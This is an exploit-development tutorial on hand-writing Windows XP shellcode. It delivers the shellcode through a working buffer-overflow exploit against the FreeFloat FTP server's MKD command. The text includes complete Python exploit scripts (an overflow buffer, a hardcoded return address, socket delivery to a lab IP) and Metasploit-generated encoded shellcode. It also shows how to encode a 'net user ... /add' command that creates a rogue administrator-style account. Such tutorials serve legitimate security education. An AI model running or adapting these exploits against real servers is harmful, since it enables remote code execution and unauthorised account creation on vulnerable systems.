

#!/usr/bin/python
#----------------------------------------------------------------------------------#
# Exploit: FreeFloat FTP (MKD BOF) #
# OS: WinXP PRO SP3 #
# Author: b33f (Ruben Boonen) #
# Software: http://www.freefloat.com/software/freefloatftpserver.zip #
#----------------------------------------------------------------------------------#
import socket
import sys
shellcode = (
)
#----------------------------------------------------------------------------------#
# Badchars: \x00\x0A\x0D #
# 0x77c35459 : push esp # ret | msvcrt.dll #
# shellcode at ESP => space 749-bytes #
#----------------------------------------------------------------------------------#
buffer = "\x90"*20 + shellcode
evil = "A"*247 + "\x59\x54\xC3\x77" + buffer + "C"*(749-len(buffer))
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.111.128',21))
s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
s.send('MKD ' + evil + '\r\n')
s.recv(1024)
s.send('QUIT\r\n')
s.close
Part 6: Writing W32 shellcode
Hello and welcome! Today we will be writing our own shellcode from scratch. This is a particularly useful exercise for two reasons: (1) you have an exploit that doesn't need to be portable but has severe space restrictions and (2) it's good way to get a grasp on ROP (Return Oriented Programming) even though there are some significant differences ROP will also involve crafting parameters to windows API functions on the stack.
To speed things up we will be using the skeleton of the "FreeFloat FTP" exploit that we created in part 1 of this tutorial series. You will also need a program called "arwin" which is a utility to find the absolute addresses of windows functions within a specified DLL. I have included all the relevant information below (the C source and a compiled version).
Exploit Development: Backtrack 5
Debugging Machine: Windows XP PRO SP3
Badcharacters: "\x00\x0A\x0D"
Vulnerable Software: Download
Arwin+source: arwin.rar
Introduction
I just want to say a couple of things before we get started. Firstly the shellcode we will write will be OS and build specific (in our case WinXP SP3). Secondly this technique is only possible because the OS DLL's in WinXP are not subject to base address randomization (ASLR). Thirdly Google + MSDN is your biggest friend. Finally don't be discouraged this is much easier than it sounds.
We will be creating two separate "payloads", (1) launching calculator and (2) creating a message-box popup. To do this we will be leveraging two windows API functions (1) WinExec and (2) MessageBoxA.
But first lets have a look at what the shellcode looks like when it is generate by the metasploit framework (take note of the size for later). Don't forget to encode the shellcode to filter out badcharacters.
(1) WinExec: launches calculator
root@bt:~# msfpayload windows/exec CMD=calc.exe R | msfencode -b '\x00\x0A\x0D' -t c [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1) unsigned char buf[] = "\xd9\xec\xd9\x74\x24\xf4\xb8\x28\x1f\x44\xde\x5b\x31\xc9\xb1" "\x33\x31\x43\x17\x83\xeb\xfc\x03\x6b\x0c\xa6\x2b\x97\xda\xaf" "\xd4\x67\x1b\xd0\x5d\x82\x2a\xc2\x3a\xc7\x1f\xd2\x49\x85\x93" "\x99\x1c\x3d\x27\xef\x88\x32\x80\x5a\xef\x7d\x11\x6b\x2f\xd1" "\xd1\xed\xd3\x2b\x06\xce\xea\xe4\x5b\x0f\x2a\x18\x93\x5d\xe3" "\x57\x06\x72\x80\x25\x9b\x73\x46\x22\xa3\x0b\xe3\xf4\x50\xa6" "\xea\x24\xc8\xbd\xa5\xdc\x62\x99\x15\xdd\xa7\xf9\x6a\x94\xcc" "\xca\x19\x27\x05\x03\xe1\x16\x69\xc8\xdc\x97\x64\x10\x18\x1f" "\x97\x67\x52\x5c\x2a\x70\xa1\x1f\xf0\xf5\x34\x87\x73\xad\x9c" "\x36\x57\x28\x56\x34\x1c\x3e\x30\x58\xa3\x93\x4a\x64\x28\x12" "\x9d\xed\x6a\x31\x39\xb6\x29\x58\x18\x12\x9f\x65\x7a\xfa\x40" "\xc0\xf0\xe8\x95\x72\x5b\x66\x6b\xf6\xe1\xcf\x6b\x08\xea\x7f" "\x04\x39\x61\x10\x53\xc6\xa0\x55\xab\x8c\xe9\xff\x24\x49\x78" "\x42\x29\x6a\x56\x80\x54\xe9\x53\x78\xa3\xf1\x11\x7d\xef\xb5" "\xca\x0f\x60\x50\xed\xbc\x81\x71\x8e\x23\x12\x19\x7f\xc6\x92" "\xb8\x7f";
(2) MessageBoxA: popup with the title set to "b33f" and the message set to "Pop the box!"
root@bt:~# msfpayload windows/messagebox TEXT='Pop the box!' TITLE=b33f R| msfencode -b '\x00\x0A\x0D' -t c [*] x86/shikata_ga_nai succeeded with size 287 (iteration=1) unsigned char buf[] = "\xb8\xe0\x20\xa7\x98\xdb\xd1\xd9\x74\x24\xf4\x5a\x29\xc9\xb1" "\x42\x31\x42\x12\x83\xc2\x04\x03\xa2\x2e\x45\x6d\xfb\xc4\x12" "\x57\x8f\x3e\xd1\x59\xbd\x8d\x6e\xab\x88\x96\x1b\xba\x3a\xdc" "\x6a\x31\xb1\x94\x8e\xc2\x83\x50\x24\xaa\x2b\xea\x0c\x6b\x64" "\xf4\x05\x78\x23\x05\x37\x81\x32\x65\x3c\x12\x90\x42\xc9\xae" "\xe4\x01\x99\x18\x6c\x17\xc8\xd2\xc6\x0f\x87\xbf\xf6\x2e\x7c" "\xdc\xc2\x79\x09\x17\xa1\x7b\xe3\x69\x4a\x4a\x3b\x75\x18\x29" "\x7b\xf2\x67\xf3\xb3\xf6\x66\x34\xa0\xfd\x53\xc6\x13\xd6\xd6" "\xd7\xd7\x7c\x3c\x19\x03\xe6\xb7\x15\x98\x6c\x9d\x39\x1f\x98" "\xaa\x46\x94\x5f\x44\xcf\xee\x7b\x88\xb1\x2d\x31\xb8\x18\x66" "\xbf\x5d\xd3\x44\xa8\x13\xaa\x46\xc5\x79\xdb\xc8\xea\x82\xe4" "\x7e\x51\x78\xa0\xff\x82\x62\xa5\x78\x2e\x46\x18\x6f\xc1\x79" "\x63\x90\x57\xc0\x94\x07\x04\xa6\x84\x96\xbc\x05\xf7\x36\x59" "\x01\x82\x35\xc4\xa3\xe4\xe6\x22\x49\x7c\xf0\x7d\xb2\x2b\xf9" "\x08\x8e\x84\xba\xa3\xac\x68\x01\x34\xac\x56\x2b\xd3\xad\x69" "\x34\xdc\x45\xce\xeb\x03\xb5\x86\x89\x70\x86\x30\x7f\xac\x60" "\xe0\x5b\x56\xf9\xfa\xcc\x0e\xd9\xdc\x2c\xc7\x7b\x72\x55\x36" "\x13\xf8\xcd\x5d\xc3\x68\x5e\xf1\x73\x49\x6f\xc4\xfb\xc5\xab" "\xda\x72\x34\x82\x30\xd6\xe4\xb4\xe6\x29\xda\x06\xc7\x85\x24" "\x3d\xcf";
You can test these payloads later to confirm that they work as intended. Time to see if we can live up to the metasploit framework and write our own shellcode!!
Skeleton Exploit
To make this tutorial as realistic as possible we are going to be implementing our payloads in the "FreeFloat FTP" exploit that we made for part 1 of this tutorial series. The first step is to generate our skeleton exploit, essentially we will be stripping down our previous exploit like this.
This should give us a base to work with. Any shellcode we place in the shellcode variable will be executed. As you can see in the screenshot below we reach our nopsled after stepping through the instructions at EIP.

Nopsled
ASM && Opcode
When you write your own shellcode you will obviously have to deal with assembly and opcode (hex translation of you ASM). You will need some basic knowledge of assembly (push, pop, mov, xor, etc..) nothing to dramatic. The main point here is that your shellcode will be written in opcode so you might ask yourself how do I know what the opcode is for any given instruction. I'll tell you the way I approach the problem.
If you put a breakpoint in the debugger, you can manually edit the instruction there and immunity will provide you with the opcode. In a sense you are using immunity as a dictionary. In the screenshots below you can see the opcode “translation” of several random instructions.


(1) WinExec
Before we can do anything we need to known what the WinExec function looks like and what parameters we need to feed it. You can find that information on MSDN.WinExec: MSDN
Take some time to read through the information, you will see that the WinExec function has a very simple structure consisting of three parameters as shown below.
Structure: Parameters: UINT WINAPI WinExec( => A pointer to WinExec() in kernel32.dll __in LPCSTR lpCmdLine, => ASCII string "calc.exe" __in UINT uCmdShow => 0x00000001 (SW_SHOWNORMAL) );
Lets take this one parameter at a time. The first thing we need to find is a pointer to WinExec, arwin can help us here since kernel32.dll is non-ASLR in WinXP. Open arwin in a terminal on the debugging machine and type the following.
arwin.exe kernel32.dll WinExec
Next we need to figure out how to write our ASCII string (in this case the command we want to run) to the stack. When doing this for the first time it might seem a bit confusing but it's not that difficult. The best way to understand is by looking at the following examples.
ASCII Text: ASCII Text:
calc.exe abcdefghijkl
Split Text into groups of 4 characters: Split Text into groups of 4 characters:
"calc" "abcd"
".exe" "efgh"
"ijkl"
Reverse the order of the character groups: Reverse the order of the character groups:
".exe" "ijkl"
"calc" "efgh"
"abcd"
Look on google for a ASCII to hex converter Look on google for a ASCII to hex converter
and convert each character while maintaining and convert each character while maintaining
the order: the order:
"\x2E\x65\x78\x65" "\x69\x6A\x6B\x6C"
"\x63\x61\x6C\x63" "\x65\x66\x67\x68"
"\x61\x62\x63\x64"
To write these values to the stack simply add To write these values to the stack simply add
"\x68" infront of each group: "\x68" infront of each group:
"\x68\x2E\x65\x78\x65" => PUSH ".exe" "\x68\x69\x6A\x6B\x6C" => PUSH "ijkl"
"\x68\x63\x61\x6C\x63" => PUSH "calc" "\x68\x65\x66\x67\x68" => PUSH "efgh"
"\x68\x61\x62\x63\x64" => PUSH "abcd"
This seems pretty straight forward however you might have noticed that our ASCII text needs to be 4-character aligned so what happens when it is not? There are quite a few ways of dealing with this, I suggest you read this excellent tutorial written by corelanc0d3r. As always mastery requires effort. I will however show you one technique, look at the example below.
ASCII Text: net user b33f 1234 /add Split Text into groups of 4 characters: "net " "user" " b33" "f 12" "34 /" "add" As you can see the alignment doesn't add up we are left with 3 characters at the end. There is a easy fix for this, adding an extra space at the end won't affect the command at all. After reversing the group order this is what we end up with. "add " => "\x68\x61\x64\x64\x20" => PUSH "add " "34 /" => "\x68\x33\x34\x20\x2F" => PUSH "34 /" "f 12" => "\x68\x66\x20\x31\x32" => PUSH "f 12" " b33" => "\x68\x20\x62\x33\x33" => PUSH " b33" "user" => "\x68\x75\x73\x65\x72" => PUSH "user" "net " => "\x68\x6E\x65\x74\x20" => PUSH "net "
Finally we need to push "1" to the stack. Remember if you don’t know the opcode for an ASM instruction you can type the command live in the debugger which will translate it for you.
uCmdShow needs to be set to 0x00000001 there are a couple of ways you can do this just use your imagination. We are going to use this: PUSH 1 => "\x6A\x01" (not to be confused with ASCII "1" = "\x31") (*) Just to give you an idea, something like this could also work: xor eax,eax (zero out eax register) inc eax (increment eax with 1) push eax (push eax to the stack)
Putting Things Together
We are going to put these three arguments on the stack in the same order as shown on MSDN. There are two things we need to remember: (1) the stack grows downward so we need to push the last argument first and (2) lpCmdLine contains our ASCII command but WinExec doesn’t want the ASCII itself it want a pointer to the ASCII string.
Doing things the wrong way: "\x68\x2E\x65\x78\x65" => PUSH ".exe" \ Push The ASCII string to the stack "\x68\x63\x61\x6C\x63" => PUSH "calc" / "\x8B\xC4" => MOV EAX,ESP | Put a pointer to the ASCII string in EAX "\x6A\x01" => PUSH 1 | Push uCmdShow parameter to the stack "\x50" => PUSH EAX | Push the pointer to lpCmdLine to the stack "\xBB\xED\x2A\x86\x7C" => MOV EBX,7C862AED | Move the pointer to WinExec() into EBX "\xFF\xD3" => CALL EBX | Call WinExec()
This is a pretty good try but it won't work. Lets see what happens when we execute these instructions in the debugger.
Its pretty close but we can see that when WinExec is called lpCmdLine doesn't know where our ASCII command ends so it appends a ton of data to "calc.exe". We will need to terminate the ASCII string with null-bytes.
Doing things the right way: We need "calc.exe" + "\x00"'s but we know that null-bytes are badcharacters however we can easily xor a register (which will then contain 4 null-bytes) and push it to the stack just before we push “calc.exe”. "\x33\xc0" => XOR EAX,EAX | Zero out EAX register "\x50" => PUSH EAX | Push EAX to have null-byte padding for "calc.exe" "\x68\x2E\x65\x78\x65" => PUSH ".exe" \ Push The ASCII string to the stack "\x68\x63\x61\x6C\x63" => PUSH "calc" / "\x8B\xC4" => MOV EAX,ESP | Put a pointer to the ASCII string in EAX "\x6A\x01" => PUSH 1 | Push uCmdShow parameter to the stack "\x50" => PUSH EAX | Push the pointer to lpCmdLine to the stack "\xBB\xED\x2A\x86\x7C" => MOV EBX,7C862AED | Move the pointer to WinExec() into EBX "\xFF\xD3" => CALL EBX | Call WinExec()
That should do the trick! We can see from the screenshots below that the parameters are now displayed correctly. If you execute this code you will see calculator opening up.
#!/usr/bin/python
#----------------------------------------------------------------------------------#
# Exploit: FreeFloat FTP (MKD BOF) #
# OS: WinXP PRO SP3 #
# Author: b33f (Ruben Boonen) #
# Software: http://www.freefloat.com/software/freefloatftpserver.zip #
#----------------------------------------------------------------------------------#
import socket
import sys
#----------------------------------------------------------------------------------#
# (*) WinExec #
# (*) arwin.exe => Kernel32.dll - WinExec 0x7C862AED #
# (*) MSDN Structure: #
# #
# UINT WINAPI WinExec( => PTR to WinExec #
# __in LPCSTR lpCmdLine, => calc.exe #
# __in UINT uCmdShow => 0x1 #
# ); #
# #
# Final Size => 26-bytes (metasploit version size => 227-bytes) #
#----------------------------------------------------------------------------------#
WinExec = (
"\x33\xc0" # XOR EAX,EAX
"\x50" # PUSH EAX => padding for lpCmdLine
"\x68\x2E\x65\x78\x65" # PUSH ".exe"
"\x68\x63\x61\x6C\x63" # PUSH "calc"
"\x8B\xC4" # MOV EAX,ESP
"\x6A\x01" # PUSH 1
"\x50" # PUSH EAX
"\xBB\xED\x2A\x86\x7C" # MOV EBX,kernel32.WinExec
"\xFF\xD3") # CALL EBX
#----------------------------------------------------------------------------------#
# Badchars: \x00\x0A\x0D #
# 0x77c35459 : push esp # ret | msvcrt.dll #
# shellcode at ESP => space 749-bytes #
#----------------------------------------------------------------------------------#
buffer = "\x90"*20 + WinExec
evil = "A"*247 + "\x59\x54\xC3\x77" + buffer + "C"*(749-len(buffer))
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.111.128',21))
s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
s.send('MKD ' + evil + '\r\n')
s.recv(1024)
s.send('QUIT\r\n')
s.close
(2) MessageBoxA
Before we do anything lets see what the MessageBoxA function looks like and what parameters we need to feed it. You can find that information on MSDN.
MessageBoxA: MSDN
Structure: Parameters: int WINAPI MessageBox( => A pointer to MessageBoxA() in user32.dll __in_opt HWND hWnd, => 0x00000000 (NULL = No Window Owner) __in_opt LPCTSTR lpText, => ASCII string "Pop the box!" __in_opt LPCTSTR lpCaption, => ASCII string "b33f" __in UINT uType => 0x00000000 (MB_OK|MB_APPLMODAL)
This one looks a bit more complicated but it's nothing we can't handle. The only real difference here is that we have two ASCII strings which we need to craft.
Lets start with our pointer to MessageBoxA this time we need to let arwin look in user32.dll.
arwin.exe user32.dll MessageBoxA
Good, lets craft both our ASCII strings just like before. I have cheated a bit to make sure that they are both 4-byte aligned but I encourage you to play around with it and create your own caption and text.
ASCII Text: ASCII Text:
b33f Pop the box!
Split Text into groups of 4 characters: Split Text into groups of 4 characters:
"b33f" "Pop "
"the "
"box!"
Reverse the order of the character groups: Reverse the order of the character groups:
"b33f" "box!"
"the "
"Pop "
Look on google for a ASCII to hex converter Look on google for a ASCII to hex converter
and convert each character while maintaining and convert each character while maintaining
the order: the order:
"\x62\x33\x33\x66" "\x62\x6F\x78\x21"
"\x74\x68\x65\x20"
"\x50\x6F\x70\x20"
To write these values to the stack simply add To write these values to the stack simply add
"\x68" infront of each group: "\x68" infront of each group:
"\x68\x62\x33\x33\x66" => PUSH "b33f" "\x68\x62\x6F\x78\x21" => PUSH "box!"
"\x68\x74\x68\x65\x20" => PUSH "the "
"\x68\x50\x6F\x70\x20" => PUSH "Pop "
The two other parameters that remain, hWnd and uType, need to be set to 0x00000000 which is convenient since we will need to xor a register to pad our ASCII strings in any case. We can then use that register to push null-bytes to the stack for these parameters as well.
This is the shellcode I came up with (but again, other variations are definitely possible).
Doing things the right way from the get-go:
"\x33\xc0" => XOR EAX,EAX | Zero out EAX register
"\x50" => PUSH EAX | Push EAX to have null-byte padding for "b33f"
"\x68\x62\x33\x33\x66" => PUSH "b33f" | Push The ASCII string to the stack
"\x8B\xCC" => MOV ECX,ESP | Put a pointer to lpCaption string in ECX
"\x50" => PUSH EAX | Push EAX to have null-byte padding for "Pop the box!"
"\x68\x62\x6F\x78\x21" => PUSH "box!" \
"\x68\x74\x68\x65\x20" => PUSH "the " | Push The ASCII string to the stack
"\x68\x50\x6F\x70\x20" => PUSH "Pop " /
"\x8B\xD4" => MOV EDX,ESP | Put a pointer to lpText string in EDX
"\x50" => PUSH EAX | Push uType=0x00000000
"\x51" => PUSH ECX | Push lpCaption
"\x52" => PUSH EDX | Push lpText
"\x50" => PUSH EAX | Push hWnd=0x00000000
"\xBE\xEA\x07\x45\x7E" => MOV ESI,7E4507EA | Move the pointer to MessageBoxA() into ESI
"\xFF\xD6" => CALL ESI | Call MessageBoxA()
Like taking candy from a CPU hehe. In the screenshot below you can see the opcode in the debugger and confirm that the parameters are displayed correctly.
#!/usr/bin/python
#----------------------------------------------------------------------------------#
# Exploit: FreeFloat FTP (MKD BOF) #
# OS: WinXP PRO SP3 #
# Author: b33f (Ruben Boonen) #
# Software: http://www.freefloat.com/software/freefloatftpserver.zip #
#----------------------------------------------------------------------------------#
# This exploit was created for Part 6 of my Exploit Development tutorial #
# series - http://www.fuzzysecurity.com/tutorials/expDev/6.html #
#----------------------------------------------------------------------------------#
import socket
import sys
#----------------------------------------------------------------------------------#
# (*) WinExec #
# (*) arwin.exe => Kernel32.dll - WinExec 0x7C862AED #
# (*) MSDN Structure: #
# #
# UINT WINAPI WinExec( => PTR to WinExec #
# __in LPCSTR lpCmdLine, => calc.exe #
# __in UINT uCmdShow => 0x1 #
# ); #
# #
# Final Size => 26-bytes (metasploit version size => 227-bytes) #
#----------------------------------------------------------------------------------#
WinExec = (
"\x33\xc0" # XOR EAX,EAX
"\x50" # PUSH EAX => padding for lpCmdLine
"\x68\x2E\x65\x78\x65" # PUSH ".exe"
"\x68\x63\x61\x6C\x63" # PUSH "calc"
"\x8B\xC4" # MOV EAX,ESP
"\x6A\x01" # PUSH 1
"\x50" # PUSH EAX
"\xBB\xED\x2A\x86\x7C" # MOV EBX,kernel32.WinExec
"\xFF\xD3") # CALL EBX
#----------------------------------------------------------------------------------#
# (*) MessageBoxA #
# (*) arwin.exe => user32.dll - MessageBoxA 0x7E4507EA #
# (*) MSDN Structure: #
# #
# int WINAPI MessageBox( => PTR to MessageBoxA #
# __in_opt HWND hWnd, => 0x0 #
# __in_opt LPCTSTR lpText, => Pop the box! #
# __in_opt LPCTSTR lpCaption, => b33f #
# __in UINT uType => 0x0 #
# ); #
# #
# Final Size => 39-bytes (metasploit version size => 287-bytes) #
#----------------------------------------------------------------------------------#
MessageBoxA = (
"\x33\xc0" # XOR EAX,EAX
"\x50" # PUSH EAX => padding for lpCaption
"\x68\x62\x33\x33\x66" # PUSH "b33f"
"\x8B\xCC" # MOV ECX,ESP => PTR to lpCaption
"\x50" # PUSH EAX => padding for lpText
"\x68\x62\x6F\x78\x21" # PUSH "box!"
"\x68\x74\x68\x65\x20" # PUSH "the "
"\x68\x50\x6F\x70\x20" # PUSH "Pop "
"\x8B\xD4" # MOV EDX,ESP => PTR to lpText
"\x50" # PUSH EAX - uType=0x0
"\x51" # PUSH ECX - lpCaption
"\x52" # PUSH EDX - lpText
"\x50" # PUSH EAX - hWnd=0x0
"\xBE\xEA\x07\x45\x7E" # MOV ESI,USER32.MessageBoxA
"\xFF\xD6") # CALL ESI
#----------------------------------------------------------------------------------#
# Badchars: \x00\x0A\x0D #
# 0x77c35459 : push esp # ret | msvcrt.dll #
# shellcode at ESP => space 749-bytes #
#----------------------------------------------------------------------------------#
buffer = "\x90"*20 + MessageBoxA
evil = "A"*247 + "\x59\x54\xC3\x77" + buffer + "C"*(749-len(buffer))
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.111.128',21))
s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
s.send('MKD ' + evil + '\r\n')
s.recv(1024)
s.send('QUIT\r\n')
s.close
{kind=link}